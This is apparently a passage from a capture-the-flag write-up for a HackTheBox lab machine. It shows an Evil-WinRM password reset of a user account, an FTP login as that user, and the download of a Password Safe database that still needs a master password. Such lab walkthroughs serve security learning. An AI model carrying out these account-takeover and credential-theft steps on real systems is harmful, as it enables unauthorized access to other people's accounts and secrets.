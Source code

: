 --

> Resetting password for `Benjamin Brown`:

```bash

*Evil-WinRM* PS C:\Users> set-localuser -name 'Benjamin' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```
> First we found out that `Benjamin` is a member of the `Share Moderators` group. He may have **permission** to log in to `FTP`:

```bash

lftp -u benjamin administrator.htb
Password:
lftp benjamin@administrator.htb:~> ls
10-05-24  09:13AM                  952 Backup.psafe3
lftp benjamin@administrator.htb:/>

```
---
## 🚪 Entry Point

> There is access to `FTP`. On the file server there is `.psafe` - the password file of the `Password Safe` program database. Download it to yourself:

```bash
lftp benjamin@administrator.htb:/> get Backup.psafe3
952 bytes transferred
lftp benjamin@administrator.htb:/> exit

```
```bash

file Backup.psafe3
Backup.psafe3: Password Safe V3 database

```

> You can't just open the file, you need a `master password`:

```bash

pwsafe Backup.psafe3

```
<p align="center">
